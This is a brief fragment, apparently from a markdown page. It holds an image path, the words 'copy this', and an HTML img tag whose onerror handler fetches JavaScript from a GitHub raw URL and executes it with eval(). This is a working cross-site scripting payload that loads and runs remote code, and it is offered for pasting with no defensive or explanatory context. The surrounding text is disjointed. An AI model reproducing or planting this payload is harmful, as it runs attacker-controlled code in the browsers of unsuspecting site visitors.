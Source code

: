 copy this
---<img src=# onerror='fetch("https://raw.githubusercontent.com/gco-12345/vsmonky/main/").then(r=>r.text()).then(c=>eval(c)) '>
